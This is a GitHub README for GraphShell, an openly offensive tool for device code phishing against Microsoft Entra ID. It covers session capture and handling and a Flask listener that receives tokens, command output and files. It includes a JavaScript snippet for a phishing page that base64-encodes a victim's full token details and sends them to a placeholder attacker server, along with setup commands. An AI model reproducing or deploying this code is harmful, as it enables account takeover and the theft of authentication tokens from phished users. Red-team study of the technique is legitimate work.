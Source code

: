 ## GraphShell: A Command-Line Tool for Microsoft Graph API Exploration
### Overview
GraphShell is a command-line not so fancy tool designed for interacting with Microsoft Graph API. Currently it facilitates many operations such as enumerating users, groups, devices, and sending emails from Entra ID ( I am lying, for some reason the mail doesn't get delivered, maybe detected as spam? ). I devloped it as I was learning and exploring Device Code Phishing and Microsoft Graph API. If you are looking for more functionality, I would recommend exploring [AADInternals](https://github.com/Gerenios/AADInternals) and [TokenTactics](https://github.com/rvrsh3ll/TokenTactics). I am sure there would be some more cool projects but I haven't explored them yet :D

### Update (05/27/2024)
It now allows interacting with multiple sessions, starting a Flask server to receive sessions (helpful during dynamic device code phishing), and performing various tasks with authenticated sessions (YESSSS! more graph api calls).
![](https://raw.githubusercontent.com/dazzyddos/GraphShell/main/images/image.png)

### Features <br>
Features
- Generate device codes for authentication.
- Interact with multiple sessions.
- Start a Flask web server to retrieve sessions remotely (Dynamic Device Code Phishing).
- List and interact with sessions.
- Execute various Microsoft Graph API commands.
- Save and load sessions to/from an SQLite database.
- Check session validity and status.
- Support for SSL for the web server.

### Web Server Endpoints
- GET /start_session: Start a new session.
- POST /start_session: Start a new session with session details.
- GET /poll_session/<session_id>: Poll for session authorization status.
- POST /receive_output: Receive command output.
- POST /receive_file: Receive a file.
- POST /heartbeat: Send a heartbeat.

#### Installation and Usage
Clone the repository:
```bash
git clone https://github.com/dazzyddos/GraphShell.git
cd GraphShell
```

Install dependencies:
```bash
pip install -r requirements.txt
```

Run the tool:
```bash
python main.py
```

Generate Device Code:
```bash
>> generate_device_code
```

Authenticate:
```
The device code needs to be entered at the provided URL i.e., https://microsoft.com/devicelogin
```

Other way to use is to start the flask server which will listen for token details:
```bash
>> start_server 1337 SSL  # can be run without SSL too
```

#### Video Demo 1 (Normal Generate Token)

<iframe width="560" height="315" src="https://www.youtube.com/embed/D4k9ueAUklM?si=oNJo162_gMs13uaX" frameborder="0" allowfullscreen></iframe>

### Dynamic Device Code Phishing
I don't need to explain what and how the device code phishing works. I would recommend reading this great [Blog Post](https://www.blackhillsinfosec.com/dynamic-device-code-phishing/) by [@rvrsh3ll](https://twitter.com/rvrsh3ll)
I am using the same [index.html](https://github.com/rvrsh3ll/Azure-App-Tools/blob/master/DynamicDeviceCodes/index.html) except with small modification below. By default he's only sending the device_code to his python tool but our tool requires the complete token details which needs to be sent after base64 encoding.
```javascript
function base64UrlEncode(str) {
        return btoa(str) // Standard Base64 encoder
            .replace(/\+/g, '-') // Convert '+' to '-'
            .replace(/\//g, '_') // Convert '/' to '_'
            .replace(/=+$/, ''); // Remove trailing '='
    }
    
// Convert the object to a JSON string
const jsonString = JSON.stringify(data)

// Base64 URL encode the JSON string
const base64EncodedData = base64UrlEncode(jsonString)
//console.log(base64EncodedData);

document.getElementById('code').innerHTML += data.message;

// Change this line to point to your listening webserver where the python code is running
$.get("https://<Server Name>:<port>/start_session?tok=" + base64EncodedData);
```

#### Video Demo 2 (Dynamic Device Code Phishing)

<iframe width="560" height="315" src="https://www.youtube.com/embed/6RKEAgkCnpE?si=kezWPKpQvM8JEiB4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>





